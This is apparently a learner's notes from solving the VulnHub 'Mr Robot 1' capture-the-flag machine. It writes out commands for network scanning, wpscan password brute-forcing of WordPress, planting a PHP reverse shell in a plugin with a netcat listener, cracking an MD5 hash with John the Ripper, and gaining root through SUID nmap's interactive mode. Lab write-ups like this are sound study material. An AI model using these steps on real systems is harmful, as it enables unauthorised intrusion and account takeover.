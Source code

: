 # Mr robot1 # 

As we do allways first we make a directory for work on the route; 

*cds@cds:~/Documentos/Workspace/Virtual machines/pentesting/mrrobot1$*

now we scan with 
sudo arp-scan 192.168.100.0/24 , and we discover the IP of the vicim machine in 192.168.100.28 , lets make a second scan

*sudo nmap -p- -sS -sV -sC -Pn -n -vvv -min-rate 5000 192.168.100.28  -oN mrrobot*

The guy of the video uses another comand . He does not use arp-scan

he uses *netdiscover -r 192.168.100.0/24*

![[netscan-r.png]]
and this is what we got, we have the mac too, very intresting

we are going to the **192.168.100.28 on the browser** to see what we have it there, and inspect the *SOURCE CODE* because the port 80 is open 
![[APACHE 1.png]]
And its running an apache server.
We dont see nothing on the apache server, but the guy of who im guiding to resolve this have an interesting thing for search scripts on nmap 

**ls /usr/share/nmap/scripts/http-en* **
and the route is in *usr/share/nmap/scripts/http-enum.nse*
![[Cibersecurity/Virtual Machines/Vuln Hub Machines/Mrrobot1/IMAGES/scriptsnmap1.png]]
And now he is sending it with the next comand
**nmap --script=http-enum.nse -p 80 192.168.100.28 -oN nmap-http-enum.txt**
![[SCRIPTNMAP2.png]]

So, this is what we obtain
![[mrrobotscriptnmap.png]]
We have many interesting things, but we are going to go to the ***/wp-login.php*** link and the ***/robots.txt*** link

![[robotstxt.png]]

we get this (the frist flag or key of 3), now we are going to download it 
***wget http://192.168.100.28/key1-of-3.txt***
![[wget1key.png]]
Now we are going to read it 
***cat key-1-of-3.txt***   
073403c8a58a1f80d943455fb30724b9

And download the other 
***wget http://192.168.100.28/fsocity.dic***
its a dict and we see that have a lot of words
less fsocity.dic(podemos ver a nuestro antojo todas las lineas) 

wc -l fsocity.dic (cuenta las lineas del archivo) *858160 fsocity.dic*
***858160 lines***
Now we are going to use a comand and we are going to se if there are some repeated words

***unique -inp=fsocity.dic fsoc.txt***

![[reducirpalabras.png]]

Because of this machine is about a serie called "MR robot" we are going to test the possible users of the loggin account in wordpres with the cast  characters of the series

in another  archive alled "users.txt" we are going to put inside "elliot" and "angela"

we are going to watch more about this website with a tool called

"wpscan"

![[wpscan.png]]

and this will be the comand to attack, we have much more options so we can search which are intresting

wpscan --url http://192.168.100.28 --output wpscan-reportwp.txt -P fsoc.txt -U usuarios.txt --max-threads 20 --password-attack wp-login
![[wpscanattak.png]]

this is the result 
I dont kno why angela looks like this, but this is the password.
![[Captura de pantalla_2023-07-14_02-20-24.png]]

The next step , when we are logged in on wordpress with the account of elliot, we are going to plugins , and we are going to put some code in the hello doly plug in
(we will try to get a reverse shell on php) , this is the url of the git repository
https://github.com/pentestmonkey/php-reverse-shell

![[helloodoly.png]]

now we copy and paste the code inside the plugin

![[phpreverseshell.png]]

Lets edit the $ip variable and $port, with our ip and the port that we want

![[editip.png]]

Now lets listen on netcat with
-nc nlvp 443 (in the port that we select previously)

![[ncnlvp.png]]

when we activate the plugin we obtain the reverse shell 

![[activate.png]]


we have acces to the pc but we are nor root 

![[daemonrs.png]]
we see watch  in the folder
cat etc/passwd 
and we watch in the home/robot folder, wha can we do if we are not users, we can execute some archives as you can see thats our permissons

![[homerobot.png]]
And now we have the key but only the user robot can open the archive, but seem like the pass of robot is there, and we can see it (ITS A HASH OF THE PASWD on md5)
![[key2casi 1.png]]

we can identify the type of hash with 
hash-indentifier  (I'ts not necesary put the hash as I did it on the example)
#hash-indentifier 
![[hash1.png]]
and in this image you can see is asking me the hash
![[hash2.png]]
Now its telling me that is a possible md5 hash
![[possiblehash.png]]

now we are decoding it with john the ripper
#john 

first we use john --list-formats 

and select the correct one

1st: *intent john --format=Raw-MD5 --wordlist=fsoc.txt  --robothash.txt *
no goals
2nd: *john --format=Raw-MD5 --wordlist=fsoc.txt  robothash.txt --rules*

select the format --format
select a wordlist (??) --wordlist  NO IDEA SOBRE ESO DE WORDLIST
--robothash.txt   es el archivo con el hash
--rules aparentemente usa palabras con mayusculas y cosas que no estan en nuestra lista

![[jonrules.png]]

we did it

But when we try to get in we have problems , we need to make a terminal with python

python -c 'import pty;pty.spawn("/bin/bash")'

#pythonterminal
![[suterminal.png]]

now we can put the password and read the second key

![[segundallave.png]]

The guy used this comand for search folders of the user root that had "extra permisions" or permisions to other users.

 no entiendo lo de -print 2> /dev/null

**find /* -user root -perm -4000 -print 2> /dev/null**

![[finddev.png]]

as you can see the user robot have permisions to execute nmap of this folder 
*/usr/local/bin/nmap* . We are going to do so
--------------------------------------------------------------
We can use interactive mode in this version of nmap with the  comand
nmap --interactive

![[nmapinteractivo.png]]


Now this guy gets a root with the comand  
**!sh**  on the interactive nmap mode... a shell with root permisions
![[rootwithnmap.png]]

and finally we get the third key !! 

![[3key.png]]